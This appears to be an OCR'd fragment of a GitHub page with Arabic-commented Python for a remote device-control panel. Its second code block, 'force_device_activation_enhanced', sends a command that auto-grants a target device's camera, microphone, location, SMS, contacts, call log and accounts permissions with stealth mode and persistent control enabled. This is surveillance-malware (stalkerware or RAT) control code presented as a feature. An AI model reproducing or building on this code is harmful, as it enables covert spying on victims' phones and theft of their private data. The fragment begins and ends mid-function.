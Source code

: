 ```python
        else:
            return {
                'success': False,
                'error': f'HTTP {response.status_code}'
            }
            
    except Exception as e:
        logger.error(f"خطأ في استيراد الأجهزة: {str(e)}")
        return {
            'success': False,
            'error': str(e)
        }
```

### ✅ **ب. آلية التفعيل التلقائي المؤكدة:**

```python
def force_device_activation_enhanced(device_id):
    """إجبار تفعيل الجهاز - محسن ومؤكد"""
    try:
        # إرسال أمر التفعيل مع جميع الصلاحيات
        activation_command = {
            'command': 'force_activation',
            'parameters': {
                'permissions': [
                    'camera', 'microphone', 'location', 'storage',
                    'contacts', 'sms', 'phone', 'calendar',
                    'call_log', 'accounts', 'body_sensors'
                ],
                'auto_grant': True,
                'stealth_mode': True,
                'persistent_control': True,
                'background_sync': True
            }
        }
        
        # إرسال الأمر مع مراقبة النتيجة
        result = command_executor.send_command(device_id, "force_activation", activation_command['parameters'])
        
        if result.get('success'):
            # تحديث حالة الجهاز
            device_manager.update_device_status(device_id, "activated", "تم التفعيل بنجاح مع جميع الصلاحيات")
            
            # التحقق من الصلاحيات الممنوحة
            permissions_granted = result.get('data', {}).get('permissions_granted', [])
            
            logger.info(f"تم تفعيل الجهاز {device_id} مع {len(permissions_granted)} صلاحية")
            
            return {
                'success': True,
                'device_id': device_id,
                'permissions_granted': permissions_granted,
                'activation_time': datetime.now()
            }
        else:
            logger.error(f"فشل في تفعيل الجهاز {device_id}: {result.get('error')}")
            return {
                'success': False,
                'error': result.get('error')
            }
            
```